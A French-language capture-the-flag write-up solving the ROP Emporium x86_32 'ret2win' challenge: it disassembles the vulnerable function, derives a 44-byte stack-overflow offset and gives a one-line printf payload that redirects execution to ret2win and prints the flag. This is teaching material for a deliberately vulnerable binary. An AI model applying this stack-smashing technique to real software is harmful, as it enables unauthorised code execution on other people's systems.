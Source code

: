 ```yaml
---
Title: Ropemporium x86_32 ret2win
Date: 2023-06-11
Tags: [linux, python, ROP, x86_32, ropemporium, write-up]
Categories: [tutorial]
Author: cdpointpoint
---
```


# ret2win

## Introduction.

Cette article démarre une série consacrée à la résolution des challenges [ropemporium](https://ropemporium.com/challenge/ret2win.html).
Avec la version X86 donc 32 bits.

Pour rappel, l'execution de cette série nécessite l'installation des librairies 32 bits.

    sudo apt install libc6-i386


## Découverte.

Le programme a le même comportement que le programme x86_64.


    ret2win# ./ret2win32
    ret2win by ROP Emporium
    x86

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Thank you!

    Exiting



## Analyse.

### Indentification de l'offset de débordement

Regardons la fonction vulnérable.

``` assembly
gef➤  disas pwnme
Dump of assembler code for function pwnme:
   0x080485ad <+0>:	push   ebp
   0x080485ae <+1>:	mov    ebp,esp
   0x080485b0 <+3>:	sub    esp,0x28
   0x080485b3 <+6>:	sub    esp,0x4
   0x080485b6 <+9>:	push   0x20
   0x080485b8 <+11>:	push   0x0
   0x080485ba <+13>:	lea    eax,[ebp-0x28]
   0x080485bd <+16>:	push   eax
   0x080485be <+17>:	call   0x8048410 <memset@plt>
   0x080485c3 <+22>:	add    esp,0x10
   0x080485c6 <+25>:	sub    esp,0xc
   0x080485c9 <+28>:	push   0x8048708
   0x080485ce <+33>:	call   0x80483d0 <puts@plt>
   0x080485d3 <+38>:	add    esp,0x10
   0x080485d6 <+41>:	sub    esp,0xc
   0x080485d9 <+44>:	push   0x8048768
   0x080485de <+49>:	call   0x80483d0 <puts@plt>
   0x080485e3 <+54>:	add    esp,0x10
   0x080485e6 <+57>:	sub    esp,0xc
   0x080485e9 <+60>:	push   0x8048788
   0x080485ee <+65>:	call   0x80483d0 <puts@plt>
   0x080485f3 <+70>:	add    esp,0x10
   0x080485f6 <+73>:	sub    esp,0xc
   0x080485f9 <+76>:	push   0x80487e8
   0x080485fe <+81>:	call   0x80483c0 <printf@plt>
   0x08048603 <+86>:	add    esp,0x10
   0x08048606 <+89>:	sub    esp,0x4
   0x08048609 <+92>:	push   0x38
   0x0804860b <+94>:	lea    eax,[ebp-0x28]
   0x0804860e <+97>:	push   eax
   0x0804860f <+98>:	push   0x0
   0x08048611 <+100>:	call   0x80483b0 <read@plt>
   0x08048616 <+105>:	add    esp,0x10
   0x08048619 <+108>:	sub    esp,0xc
   0x0804861c <+111>:	push   0x80487eb
   0x08048621 <+116>:	call   0x80483d0 <puts@plt>
   0x08048626 <+121>:	add    esp,0x10
   0x08048629 <+124>:	nop
   0x0804862a <+125>:	leave
   0x0804862b <+126>:	ret
End of assembler dump.
```

La lecture se fait dans la sequence suivante.

    0x08048609 <+92>:	push   0x38
    0x0804860b <+94>:	lea    eax,[ebp-0x28]
    0x0804860e <+97>:	push   eax
    0x0804860f <+98>:	push   0x0
    0x08048611 <+100>:	call   0x80483b0 <read@plt>

En x86, le passage de paramètre se fait exclusivement sur la pile.
On a donc read(0, ebp-0x28, 0x38).

Le buffer des destination se trouve à $ebp - 40, on lit 50 (0x38) octets.
EN 32 bits la taille de la sauvegarde su registe EBP est de 4 octets donc on doit avoir un offset de déborde ment de 44.

    gef➤  b *pwnme+100
    Breakpoint 1 at 0x8048611


    gef➤  x/20xw $esp
    0xffc80000:	0x00000000	0xffc80010	0x00000038	0x00000004
                arg1        arg2        arg2 (size)
    0xffc80010:	0x00000000	0x00000000	0x00000000	0x00000000
                #buffer
    0xffc80020:	0x00000000	0x00000000	0x00000000	0x00000000
    0xffc80030:	0x080486f8	0x00000000	0xffc80048	0x08048590
                                        SEBP        SEIP
    0xffc80040:	0x00000001	0xffc80060	0x00000000	0xf7d6b295

ni
On evnvoie 44 caractères (avec le linefeed final)
AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEE

    gef➤  x/20xw $esp
    0xff90ad40:	0x00000000	0xff90ad50	0x00000038	0x00000004
    0xff90ad50:	0x41414141	0x41414141	0x42424141	0x42424242
    0xff90ad60:	0x42424242	0x43434343	0x43434343	0x44444343
    0xff90ad70:	0x44444444	0x44444444	0x0a454545	0x08048590
                                        SEBP ecrasé SEIP encode intact
    0xff90ad80:	0x00000001	0xff90ada0	0x00000000	0xf7d86295

On localise ret2win :

    gef➤  p ret2win
    $1 = {<text variable, no debug info>} 0x804862c <ret2win>

## Exploitation

Nous pourvons obtenir le flag avec uns simple ligne de commande en bash :

prinf "%44s" A envoie le bourrage initial

Ensuite on ajoute l'adresse de ret2win inversée du fait de la convention de traitement de entier littledian des processeurs intel.

    ret2win# printf "%44s\x2c\x86\x04\x08\x00" A |./ret2win32
    ret2win by ROP Emporium
    x86

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
    Segmentation fault (core dumped)






